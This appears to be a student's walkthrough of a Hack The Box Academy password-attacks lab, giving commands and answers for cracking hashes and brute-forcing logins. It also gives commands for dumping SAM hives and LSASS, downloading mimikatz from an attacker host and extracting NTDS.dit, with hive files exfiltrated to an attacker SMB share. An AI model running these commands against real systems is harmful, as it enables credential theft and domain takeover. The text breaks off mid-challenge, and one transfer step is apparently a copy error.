# HTB-Password_Attacks

## Table of Contents
1. [Password Cracking Techniques](#password-cracking-techniques)
    1. [Introduction to Password Cracking](#introduction-to-password-cracking)
    2. [Introduction to John The Ripper](#introduction-to-john-the-ripper)
    3. [Introduction to Hashcat](#introduction-to-hashcat)
    4. [Writing Custom Wordlists and Rules](#writing-custom-wordlists-and-rules)
    5. [Cracking Protected Files](#cracking-protected-files)
    6. [Cracking Protected Archives](#cracking-protected-archives)
2. [Remote Password Attacks](#remote-password-attacks)
    1. [Network Services](#network-services)
    2. [Spraying, Stuffing, and Defaults](#spraying-stuffing-and-defaults)
3. [Extracting Passwords from Windows Systems](#extracting-passwords-from-windows-systems)
    1. [Attacking SAM, SYSTEM, and SECURITY](#attacking-sam-system-and-security)
    2. [Attacking LSASS](#attacking-lsass)
    3. [Attacking Windows Credential Manager](#attacking-windows-credential-manager)
    4. [Attacking Active Directory and NTDS.dit](#attacking-active-directory-and-ntdsdit)
    5. [Credential Hunting in Windows](#credential-hunting-in-windows)
4. [Extracting Passwords from Linux Systems](#extracting-passwords-from-linux-systems)
    1. [Linux Authentication Process](#linux-authentication-process)
    2. [Credential Hunting in Linux](#credential-hunting-in-linux)
5. [Extracting Passwords from the Network](#extracting-passwords-from-the-network)
    1. [Credential Hunting in Network Traffic](#credential-hunting-in-network-traffic)
    2. [Credential Hunting in Network Shares](#credential-hunting-in-network-shares)
6. [Windows Lateral Movement Techniques](#windows-lateral-movement-techniques)
    1. [Pass the Hash (PtH)](#pass-the-hash-pth)
    2. [Pass the Ticket (PtT) from Windows](#pass-the-ticket-ptt-from-windows)
    3. [Pass the Ticket (PtT) from Linux](#pass-the-ticket-ptt-from-linux)
    4. [Pass the Certificate](#pass-the-certificate)

## Password Cracking Techniques

### Introduction to Password Cracking
#### Challenges
1. What is the SHA1 hash for `Academy#2025`?

    We can solve this by using SHA1.
    ```bash
    echo -n Academy#2025 | sha1sum
    ```

    The answer is `750fe4b402dc9f91cedf09b652543cd85406be8c`.

### Introduction to John The Ripper
#### Tools
1. John The Ripper (jumbo version, can be donwloaded via snap. The usage is `john-the-ripper` not `john`)
#### Challenges
1. Use single-crack mode to crack r0lf's password.

    To solve this, we can use jtr tools. First copy the challenge from module into our machine. Then run jtr.
    ```bash
    echo 'r0lf:$6$ues25dIanlctrWxg$nZHVz2z4kCy1760Ee28M1xtHdGoy0C2cYzZ8l2sVa1kIa8K9gAcdBP.GI6ng/qA4oaMrgElZ1Cb9OeXO4Fvy3/:0:0:Rolf Sebastian:/home/r0lf:/bin/bash' > chall_jtr
    ```
    ```bash
    john --single chall_jtr
    ```

    Then if its done, we can use show options.
    ```bash
    john --show chall_jtr
    ```
    Here the output.
    

    So the answer is `NAITSABES`.

2. Use wordlist-mode with rockyou.txt to crack the RIPEMD-128 password.

    Copy the password from the modules into our machine.

    ```bash
    echo '193069ceb0461e1d40d216e32c79c704' > chall_jtr2
    ```
    Then we specify the format with ripemd-128 and the wordlist is rockyou.txt.
    ```bash
    john-the-ripper --wordlist=/home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt --format=ripemd-128 chall_jtr2
    ```
    Here the output.
    

    The answer is `50cent`.

### Introduction to Hashcat
#### Tools
1. Hashcat
#### Challenges
1. Use a dictionary attack to crack the first password hash. (Hash: e3e3ec5831ad5e7288241960e5d4fdb8)

    We can solve this using hashcat with dictionary attack.

    ```bash
    hashcat -a 0 -m 0 e3e3ec5831ad5e7288241960e5d4fdb8 /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt
    ```

    The answer is `crazy!`.

2. Use a dictionary attack with rules to crack the second password hash. (Hash: 1b0556a75770563578569ae21392630c)

    We can solve this using haschat with `best64.rule`.

    ```bash
    hashcat -a 0 -m 0 1b0556a75770563578569ae21392630c /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
    ```

    The answer is `c0wb0ys1`.

3.  Use a mask attack to crack the third password hash. (Hash: 1e293d6912d074c0fd15844d803400dd)

    We can solve this by using mask attack with this specific mask, `?u?l?l?l?l?d?s`.

    ```bash
    hashcat -a 3 -m 0 1e293d6912d074c0fd15844d803400dd '?u?l?l?l?l?d?s'
    ```

### Writing Custom Wordlists and Rules
#### Tools
1. cewl
#### Challenges
1. What is Mark's password?

    To solve this, we should organize our information first. 
    1. Password policy
    The password length at least 12 characters, at least one uppercase letter, at least one lowercase letter, at least one symbol and at least one number. It have `97268a8ae45ac7d15c3cea4ce6ea550b` as hash.
    2. Possible words
    Mark White, August 5, 1998, Nexura, Ltd, San Francisco, CA, USA, Bella, Maria, Alex, baseball.

    Based on that, i made this password.list.

    ```bash
    Mark
    White
    August
    05
    08
    1998
    98
    Nexura
    San
    Francisco
    CA
    USA
    Bella
    Maria
    Alex
    baseball
    ```

    And i made this custom.rule.

    ```bash
    c $1$9$9$8$!
    c $0$8$0$5$!
    c $9$8$!
    c $1$9$9$8$@
    c $0$8$0$5$@
    ```
    Then i generate the new password list.
    ```bash
    hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
    ```

    After that i tried to solve it by combine with `best64.rule`

    ```bash
    hashcat -a 0 -m 0 97268a8ae45ac7d15c3cea4ce6ea550b mut_password.list -r /usr/share/hashcat/rules/best64.rule
    ```

    The answer is `Baseball1998!`.

### Cracking Protected Files
#### Tools
1. office2john.py
#### Challenges 
1. Download the attached ZIP archive (cracking-protected-files.zip), and crack the file within. What is the password?

    First we need to unzip the file. We got this file.

    

    To solve this, we can use `office2john.py`.
    
    ```bash
    python3 /snap/john-the-ripper/current/bin/office2john.py Confidential.xlsx > protected-xlsx.hash
    ```

    Here the result.

    

    Then we use john-the-ripper again to crack the hash.

    ```bash
    john-the-ripper --wordlist=/home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt protected-xlsx.hash
    ```
    The answer is `beethoven`.

### Cracking Protected Archives
#### Challenges
1. Run the above target then navigate to http://ip:port/download, then extract the downloaded file. Inside, you will find a password-protected VHD file. Crack the password for the VHD and submit the recovered password as your answer.

    To solve this, after we extracted it, we can use `bitlocker2jhon`.

    ```bash
    /snap/john-the-ripper/current/bin/bitlocker2john -i Private.vhd > Private.hashes
    grep "bitlocker\$0" Private.hashes > private.hash
    cat private.hash
    ```

    

    We copied the private.hash output and use hashcat with `-m 22100`.

    ```bash
    hashcat -a 0 -m 22100 '$bitlocker$0$16$b3c105c7ab7faaf544e84d712810da65$1048576$12$b020fe18bbb1db0103000000$60$e9c6b548788aeff190e517b0d85ada5daad7a0a3f40c4467307011ac17f79f8c99768419903025fd7072ee78b15a729afcf54b8c2e3af05bb18d4ba0' /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt
    ```
    The answer is `francisco`.

2. Mount the BitLocker-encrypted VHD and enter the contents of flag.txt as your answer.

    To solve this, we can mount the vhd and explore it. Here the commands.

    ```bash
    sudo mkdir -p /media/bitlocker
    sudo mkdir -p /media/bitlockermount
    sudo losetup -f -P Private.vhd
    sudo dislocker /dev/loop0p1 -ufrancisco -- /media/bitlocker
    sudo mount -o loop /media/bitlocker/dislocker-file /media/bitlockermount
    cd /media/bitlockermount
    ```

    The answer is `43d95aeed3114a53ac66f01265f9b7af`.

## Remote Password Attacks
### Network Services
#### Tools
1. netexec (nxc)
2. evil-winrm
3. hydra

#### Challenges
1. Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

    We can use netexec to solve this.

    ```bash
    netexec winrm 10.129.202.136 -u username.list -p password.list --threads 103
    ```

    Then after we get username and password, we can login using `evil-winrm`.
    ```bash
    evil-winrm -i 10.129.202.136 -u john -p november
    ```
    The answer is `HTB{That5Novemb3r}`.

2. Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

    We can use hydra to solve this.

    ```bash
    hydra -L username.list -P password.list ssh://10.129.202.136
    ```

    We get user `dennis` with password `rockstar`. The answer is `HTB{Let5R0ck1t}`.

3. Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

    We can use hydra again to solve this.

    ```bash
    hydra -L username.list -P password.list -t 4 rdp://10.129.202.136
    ```
    Then we login using the credential that we found.

    ```bash
    xfreerdp /v:10.129.202.136 /u:chris /p:789456123
    ```
    The answer is `HTB{R3m0t3DeskIsw4yT00easy}`.

4. Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

    We can solve this using metasploit. 
    ```bash
    [msf](Jobs:0 Agents:0) >> use auxiliary/scanner/smb/smb_login
    [*] New in Metasploit 6.4 - The CreateSession option within this module can open an interactive session
    [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set user_file username.list
    user_file => username.list
    [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set pass_file password.list
    pass_file => password.list
    [msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set rhosts 10.129.202.136
    rhosts => 10.129.202.136
    ```
    After we got the credential, we use netexec to list the share folders.
    ```bash
    netexec smb 10.129.202.136 -u "cassie" -p "12345678910" --shares
    ```
    After that we use smbclient to specific folder.
    ```bash
    smbclient -U cassie \\\\10.129.202.136\\CASSIE
    ```
    The answer is `HTB{S4ndM4ndB33}`.

### Spraying, Stuffing, and Defaults
#### Tools
1. netexec 
2. kerbrute
3. burpsuite
4. creds search (python venv)
#### Challenges
1. Use the credentials provided to log into the target machine and retrieve the MySQL credentials. Submit them as the answer. (Format: <username>:<password>)

    We can solve this using `creds search`.

    ```bash
    creds search MySQL
    ```
    We tried all of that and we get `superdba:admin` as the right answer.

## Extracting Passwords from Windows Systems
### Attacking SAM, SYSTEM, and SECURITY
#### Tools
1. dpapi.py
2. mimikatz
3. DonPAPI
4. netexec 

#### Challenges
1. Where is the SAM database located in the Windows registry? (Format: ****\***)

    The answer is `HKLM\SAM`.

2. Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.

    To solve this, first we need rdp to the target. Then we run `cmd` with admin previllege. Then we use `reg.exe` to save `sam,system,security` registry hives.

    ```cmd
    reg.exe save hklm\sam C:\sam.save
    reg.exe save hklm\system C:\system.save
    reg.exe save hklm\security C:\security.save
    ```

    Then we setup smb to transfer from the attacked host to our host. In our host, we can do this.

    ```bash
    mkdir ~/loot
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support SHARE ~/loot
    ```

    Back to attacked host, we transfer all of those.

    ```cmd
    move sam.save \\10.10.15.234\share 
    move system.save \\10.10.15.234\share 
    move security.save \\10.10.15.234\share 
    ```

    In our host, we can dump the hash using `secretsdump.py`.

    ```bash
    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```

    

    In there we can find ITbackdoor user. We copy the fourth component (nthash) to crack using hashcat.

    ```bash
    sudo hashcat -m 1000 c02478537b9727d391bc80011c2e2321 /usr/share/wordlists/rockyou.txt
    ```

    The answer is `matrix`.

3.   Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)

    To solve this, we can use entexec.

    ```bash
    netexec smb 10.129.202.137 --local-auth -u Bob -p HTB_@cademy_stdnt! --lsa
    ```

    The answer is `frontdesk:Password123`.

### Attacking LSASS
#### Tools
1. pypykatz
#### Challenges 
1. What is the name of the executable file associated with the Local Security Authority Process?

    The answer is `lsass.exe`.

2. Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)

    To solve this, after we xfreerdp to the target, we run this in the powershell.

    ```powershell
    Get-Process lsass
    rundll32 C:\windows\system32\comsvcs.dll, MiniDump <Id>> C:\lsass.dmp full
    ```

    Then we setup for the smb transfer in our machine.

    ```bash
    mkdir ~/loot
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support SHARE ~/loot
    ```
    Back to our attacked machine, we transfer that. 
    ```powershell
    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support SHARE ~/loot
    ```

    After that, dump the lsa by using pypykatz
    ```bash
    pypykatz lsa minidump lsass.dmp
    ```
    After we copied the NT from the vendor user, we crack it using hashcat.

    ```bash
    sudo hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 rockyou.txt
    ```
    The answer is `Mic@123`.

### Attacking Windows Credential Manager
#### Tools
1. mimikatz.exe
#### Challenges 
1. What is the password mcharles uses for OneDrive?

    To solve this, after we xfreerdp to the target, we seacrh stored credentials account in the current user.
    ```cmd
    cmdkey /list
    ```
    

    We can see it has `SRV01\mcharles` user. The we check the detail of that user.
    ```cmd
    net user mcharles
    ```

    

    We can see its part of Administrator group. Then we run new cmd using that credential.

    ```cmd
    runas /savecred /user:SRV01\mcharles cmd
    ```
    To transfer mimkatz from our host to attacked host, i used http server in here. In our host run this.

    ```bash
    wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
    python3 -m http.server 8080
    ```
    Back to our attacked host, run this to download the file.

    ```cmd
    powershell -c "Invoke-WebRequest -Uri http://10.10.15.234:8080/mimikatz_trunk.zip -OutFile C:\Users\sadams\Desktop\mimikatz.zip"
    ```
    After that, to use mimkatz, we must have admin previllege. So with user in the part of admin group, we start new cmd with run as adminstrator.

    ```cmd
    powershell -c "Start-Process cmd -Verb RunAs"
    ```
    Then run mimikatz. In the mimikatz do this.
    ```cmd
    mimikatz # privilege::debug
    ```

    We cant get the password by doing `sekurlsa::credman`. Because the password is not saved in our current user (mcharles) instead it saved on sadams session. We can use this command `sekurlsa::logonpasswords` to dump all logon session.

    

    In there we can get the password. The answer is `Inlanefreight#2025`.

### Attacking Active Directory and NTDS.dit
#### Tools
1. username-anarchy
2. Kerbrute
3. NetExec
4. evil-winrm
#### Challenges
1. What is the name of the file stored on a domain controller that contains the password hashes of all domain accounts? (Format: ****.***)

    The answer is `NTDS.dit`.

2. Submit the NT hash associated with the Administrator user from the example output in the section reading.

    The answer is `64f12cddaa88057e06a81b54e73b949b`.

3. On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)

    To solve this, first we must find the correct domain name. We can use nmap to  enumerate ldap (domain controoler) port.

    ```bash
    nmap --script ldap-rootdse -p 389 10.129.202.85
    ```
    

    Based on that, we can see the correct domain is `ILF.local`. Then we need to find the correct username. We already have informations about the person name. Here the list of that.

    ```bash
    mrwhok@MSI:~/ctf/HTB-Academy/HTB-Password_Attacks$ cat name.txt
    John Marston
    Carol Johnson
    Jennifer Stapleton
    ```
    Then we use `username-anarchy` to make username combination.

    ```bash
    username-anarchy -i name.txt > users.txt
    ```

    After that, we use `kerbrute` to find valid username.

    ```bash
    kerbrute userenum --dc 10.129.202.85 --domain ILF.local users.txt
    ```

    

    We can see it have 3 results. For our case, we need to find valid username for `John Marston`. So the valide username based on that is `jmarston`. Then we use `netexec` to bruteforce the password.

    ```bash
    netexec smb 10.129.202.85 -u jmarston -p /home/mrwhok/tools/fasttrack.txt
    ```

    We can get the answer for this challenge is `jmarston:P@ssword!`.

4. Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive)

    To solve this, with the credential we found in the previous, we can use `evil-winrm`.

    ```bash
    evil-winrm -i 10.129.202.85  -u jmarston -p 'P@ssword!'
    ```

    In the win-rm shell, we can check our group membership. If we have admin, we can do many thing.
    
    ```bash
    net user jmarston
    ```

    

    Based on that, we can see it part of admin group. So we can create copy shadow volume c to get NTDS.dit and SYSTEM.

    ```bash
    vssadmin CREATE SHADOW /For=C:
    cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
    cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\NTDS\SYSTEM
    ```

    Then we can download it to our host.

    ```powershell
    download NTDS.dit
    download SYSTEM
    ```

    Then we can use `impacket-secretsdump` to dump the hash.

    ```bash
    impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
    ```

    After copy the NT hashes, we can use hashcat to crack it.

    ```bash
    sudo hashcat -m 1000 92fd67fd2f49d0e83744aa82363f021b /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt    
    ```
    The answer is `Winter2008`.

### Credential Hunting in Windows
#### Tools
1. LaZagne
#### Challenges
1. What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)

    We can find this in the creds folder. The answer is `WellConnected123`.

2. What is the GitLab access code Bob uses? (Format: Case-Sensitive)

    We can find this in the workstuff folder. The answer is `3z1ePfGbjWPsTfCsZfjy`.

3. What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive)

    We can use lazagne to solve this. The answer is `ubuntu:FSadmin123`.

4. What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive)

    We can find this in the BulkadADUsers.txt. The answer is `Inlanefreightisgreat2022`.

5. What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive)

    We can find this in the ansible folder. The answer is `edgeadmin:Edge@dmin123!`.

## Extracting Passwords from Linux Systems
### Linux Authentication Process
#### Tools
1. unshadow 
#### Challenges
1. Download the attached ZIP file (linux-authentication-process.zip), and use single crack mode to find martin's password. What is it?

    To solve this, first we use unshadow to combine passwd and shadow file. Then we use hashcat to crack it.

    ```bash
    hashcat -m 1800 -a 0 unshadowed.hashes /home/mrwhok/ctf/HTB-Academy/footprinting/rockyou.txt -o unshadowed.cracked
    ```

    

    The answer is `Martin1`.

2. Use a wordlist attack to find sarah's password. What is it?

    We already have the password from the previous number. The answer is `mariposa`.

### Credential Hunting in Linux
#### Tools
1. [Mimipenguin](https://github.com/huntergregal/mimipenguin)
2. [firefox_decrypt](https://github.com/unode/firefox_decrypt)
#### Challenges
1. Examine the target and find out the password of the user Will. Then, submit the password as the answer.

    We can solve this by using firefox_decrypt.py.

    ```bash
    python3.9 firefox_decrypt.py
    ```
    And then select 2. We can get the answer from there. The answer is `TUqr7QfLTLhruhVbCP`.

## Extracting Passwords from the Network
### Credential Hunting in Network Traffic
#### Tools
1. [PCredz](https://github.com/lgandx/PCredz)
2. Wireshark

#### Challenges
1. The packet capture contains cleartext credit card information. What is the number that was transmitted?

    We can solve this by using wireshark. In the filter, we type this.
    
    ```bash
    http contains "card"
    ```
    In the third result, we follow http stream.

    

    We can see the card number there. The answer is `5156 8829 4478 9834`.

2. What is the SNMPv2 community string that was used?

    We can type `snmp` in the filter and then follow udp stream. The answer is `s3cr3tSNMPC0mmun1ty`.

3. What is the password of the user who logged into FTP?

    We can type `ftp` in the filter and then follow tcp stream. The answer is `qwerty123`.

4. What file did the user download over FTP?

    Still in the same window like number 3 challenges, we can get the answer in there. The answer is `creds.txt`.

### Credential Hunting in Network Shares
#### Tools
1. [Snaffler](https://github.com/SnaffCon/Snaffler)
2. [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares)
3. [MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER)
4. NetExec
#### Challenges
1. One of the shares mendres has access to contains valid credentials of another domain user. What is their password?

    To solve this, you can open file explorer and see the recent opened files. It have `split_tunnel.txt`. We can find the answer in there. 
    
    

    The answer is `ILovePower333###`.

2. As this user, search through the additional shares they have access to and identify the password of a domain administrator. What is it?

    To solve this, we can use new credential that we found earlier. Use `jbader` can access Admin folder unlike `mendres` user. So i suspect that we can solve this by exploring Admin folder. In there, we can see many decoy files. Most of them contain script to generate fake password. 

    

    But in the HR file, it gave as a tip fo find the password.

